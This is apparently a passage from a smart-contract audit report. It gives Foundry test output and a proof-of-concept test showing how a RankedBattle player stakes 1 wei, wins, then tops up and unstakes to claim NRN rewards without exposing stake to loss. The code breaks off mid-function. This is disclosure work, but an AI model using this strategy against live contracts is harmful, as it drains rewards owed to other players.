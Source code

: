 result
```solidity
Running 1 test for test/RankedBattle.t.sol:RankedBattleTest
[PASS] testLose() (gas: 839095)
Logs:
  strategyPlayer stake at risk:
  4000000000000000000

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.15ms
```  
  
4. strategy
**I simulated the first round where the strategy succeeded in earning tokens, and the second round where the strategy failed, but no funds were at risk.**  

```solidity
    function testStrategy() public{
        address strategyPlayer = vm.addr(4);
        address player = vm.addr(3);
        _mintFromMergingPool(strategyPlayer);
        _mintFromMergingPool(player);
        _fundUserWith4kNeuronByTreasury(player);
        _fundUserWith4kNeuronByTreasury(strategyPlayer);

        vm.prank(player);
        _rankedBattleContract.stakeNRN(4_000 * 10 ** 18, 1);
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(1, 50, 0, 1500, true);

        vm.prank(strategyPlayer);
        _rankedBattleContract.stakeNRN(1, 0);
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 0, 1500, true);

        vm.prank(strategyPlayer);
        _rankedBattleContract.stakeNRN(4_000 * 10 ** 18 - 1 , 0);
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 0, 1500, true);
        vm.prank(strategyPlayer);
        _rankedBattleContract.unstakeNRN(4_000 * 10 ** 18,0);

        _rankedBattleContract.setNewRound();
        vm.prank(player);
        _rankedBattleContract.claimNRN();
        vm.prank(strategyPlayer);
        _rankedBattleContract.claimNRN();
        emit log_uint(_rankedBattleContract.amountClaimed(player));
        emit log_uint(_rankedBattleContract.amountClaimed(strategyPlayer));

        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(1, 50, 0, 1500, true);


        vm.prank(strategyPlayer);
        _rankedBattleContract.stakeNRN(1, 0);
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 0, 1500, true);

        vm.prank(strategyPlayer);
        _rankedBattleContract.stakeNRN(4_000 * 10 ** 18 - 1 , 0);
        vm.prank(address(_GAME_SERVER_ADDRESS));
        _rankedBattleContract.updateBattleRecord(0, 50, 2, 1500, true);
        vm.prank(strategyPlayer);
        _rankedBattleContract.unstakeNRN(4_000 * 10 ** 18,0);
        console.log("strategyPlayer stake at risk:");
```